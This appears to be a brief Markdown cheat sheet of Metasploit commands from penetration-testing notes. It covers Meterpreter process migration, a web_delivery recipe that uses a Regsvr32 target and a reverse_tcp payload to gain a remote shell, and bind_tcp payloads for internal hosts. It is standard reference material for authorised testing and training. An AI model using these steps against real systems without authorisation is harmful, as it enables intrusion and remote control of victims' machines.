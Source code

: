 # Metasploit
### Process Migrate
#### Meterpreter
* `migrate -N <process/PID>`<br>
_Needed when running as **NT AUTHORITY\SYSTEM** but get Access Denied_

### Shell Upgrade
#### Metasploit **web_delivery** module
1. Select module
   * `use exploit/multi/script/web_delivery`
2. set `lhost`
3. set target
   * `show targets`
   * `set target Regsvr32` - creates a payload to run on windows
4. set payload
   * `set payload windows/meterpreter/reverse_tcp`
5. Run command on already infected host to gain **Meterpreter** shell

### Exploiting targets in the internal network
* `set PAYLOAD windows/meterpreter/bind_tcp` - `reverse_tcp` shells won't work because internal target is not accessible from attacker machine

### General Commands
* `search <exploit-key-word>` - search exploits based on keywords
* `show targets` - show available targets
* `show payloads` - show available payloads
* `info` - extra details about the module selected

## Cool resources
https://book.hacktricks.xyz/shells/shells/windows#regsvr32
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/
